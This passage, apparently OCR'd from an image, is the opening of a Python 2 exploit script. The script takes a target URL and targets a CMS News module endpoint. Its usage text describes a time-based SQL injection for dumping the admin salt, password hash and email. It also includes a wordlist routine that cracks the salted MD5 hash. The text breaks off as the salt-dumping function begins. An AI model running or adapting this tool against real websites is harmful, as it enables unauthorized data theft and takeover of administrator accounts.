 ```python

parser = optparse.OptionParser()
parser.add_option('-u', '--url', action="store", dest="url", help="Base target uri (ex. http://10.10.10.100/cms)")
parser.add_option('-w', '--wordlist', action="store", dest="wordlist", help="Wordlist for crack admin password")
parser.add_option('-c', '--crack', action="store_true", dest="cracking", help="Crack password with wordlist", default=False)

options, args = parser.parse_args()
if not options.url:
    print "[+] Specify an url target"
    print "[+] Example usage (no cracking password): exploit.py -u http://target-uri"
    print "[+] Example usage (with cracking password): exploit.py -u http://target-uri --crack -w /path-wordlist"
    print "[+] Setup the variable TIME with an appropriate time, because this sql injection is a time based."
    exit()

url_vuln = options.url + '/moduleinterface.php?mact=News,m1_,default,0'
session = requests.Session()
dictionary = '1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM@._-$'
flag = True
password = ""
temp_password = ""
TIME = 1
db_name = ""
output = ""
email = ""

salt = ''
wordlist = ""
if options.wordlist:
    wordlist += options.wordlist

def crack_password():
    global password
    global output
    global wordlist
    global salt
    dict = open(wordlist)
    for line in dict.readlines():
        line = line.replace("\n", "")
        beautify_print_try(line)
        if hashlib.md5(str(salt) + line).hexdigest() == password:
            output += "\n[+] Password cracked: " + line
            break
    dict.close()

def beautify_print_try(value):
    global output
    print "\033c"
    cprint(output,'green', attrs=['bold'])
    cprint('[*] Try: ' + value, 'red', attrs=['bold'])

def beautify_print():
    global output
    print "\033c"
    cprint(output,'green', attrs=['bold'])

def dump_salt():
    global flag
    global salt
```